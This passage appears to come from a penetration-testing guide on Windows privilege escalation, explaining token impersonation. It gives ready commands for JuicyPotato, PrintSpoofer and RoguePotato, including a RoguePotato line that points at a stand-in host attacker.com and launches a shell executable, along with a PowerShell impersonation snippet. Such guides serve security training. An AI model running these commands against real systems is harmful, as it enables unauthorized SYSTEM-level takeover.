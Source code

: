 ```bash
# - Registry controls system behavior
# - Auto-run entries provide persistence and escalation
# - Service configurations stored in registry
# - AlwaysInstallElevated is common misconfiguration
```

#### **Token Impersonation**

**What token impersonation is:** Windows uses access tokens to represent security context of users and processes. Token impersonation allows adopting security context of other users/processes.

**Why token impersonation is powerful:** If current user has SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege, can impersonate other users including SYSTEM.

```bash
# Check current user privileges
whoami /priv
# Look for:
# SeImpersonatePrivilege
# SeAssignPrimaryTokenPrivilege
# SeDebugPrivilege

# JuicyPotato exploitation (Windows Server 2016/2019)
# If SeImpersonatePrivilege is enabled:
# Download JuicyPotato.exe
JuicyPotato.exe -l 1337 -p C:\temp\shell.exe -t u -c {CLSID}

# PrintSpoofer exploitation (newer Windows versions)
# Alternative to JuicyPotato for newer systems
PrintSpoofer.exe -i -c cmd

# RoguePotato exploitation
# Another alternative for token impersonation
RoguePotato.exe -r attacker.com -e "C:\temp\shell.exe" -l 9999

# Manual token impersonation with PowerShell
# Enable SeDebugPrivilege and impersonate SYSTEM token
$signature = @"
[DllImport("advapi32.dll", SetLastError = true)]
public static extern bool ImpersonateLoggedOnUser(IntPtr hToken);
"@
Add-Type -MemberDefinition $signature -Name Impersonation -Namespace Win32

# Why token impersonation is effective:
# - Many service accounts have SeImpersonatePrivilege
# - Allows escalation to SYSTEM without exploits
# - Works on modern Windows versions
# - Reliable technique for web application contexts (IIS, SQL Server)

# Identifying token impersonation opportunities
# Check for service accounts:
whoami
# Common vulnerable contexts:
# - iis apppool\defaultapppool (IIS web applications)
# - nt service\mssqlserver (SQL Server)
# - Network Service accounts
# - Local Service accounts

# Advanced token manipulation
# List available tokens (requires SeDebugPrivilege)
# Use tools like:
# - Incognito (Metasploit module)
# - PowerShell Empire modules
# - Custom PowerShell scripts
```